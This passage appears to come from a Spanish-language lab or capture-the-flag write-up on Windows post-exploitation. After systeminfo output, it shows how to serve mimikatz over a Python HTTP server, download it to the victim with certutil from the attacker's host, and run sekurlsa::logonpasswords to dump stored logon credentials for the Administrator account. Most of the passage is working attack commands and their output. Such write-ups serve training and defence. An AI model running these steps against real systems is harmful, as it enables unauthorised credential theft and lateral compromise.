 ```
                           [172]: KB3177467
                           [173]: KB3179573
                           [174]: KB3181988
                           [175]: KB3184143
                           [176]: KB4014504
                           [177]: KB976902
                           [178]: KB982018
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.199.216
                                 [02]: fe80::c9f2:5e32:8b3d:76af
                                 [03]: dead:beef::cc3d:cfc8:2465:b2cb
                                 [04]: dead:beef::c9f2:5e32:8b3d:76af
```

Nos `copiamos` el `binario` de `Mimikatz` en nuestro equipo

```
# locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
# cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

Nos montamos un `servidor http` con `python` donde se encuentra el `binario`

```
# python -m http.server 80
```

`Descargamos` el `binario` en la máquina víctima

```
C:\Windows\Temp\PostExploitation> certutil.exe -urlcache -split -f http://10.10.16.23/mimikatz.exe
****  Online  ****
  000000  ...
  62826f
CertUtil: -URLCache command completed successfully.
```

`Ejecutamos` el `binario` y nos `dumpeamos` la `contraseña` del `login` [https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#counteracting-sedebugprivilege-removal](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#counteracting-sedebugprivilege-removal)

```
C:\Windows\Temp\PostExploitation>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 437201 (00000000:0006abd1)
Session           : Interactive from 0
User Name         : Administrator
```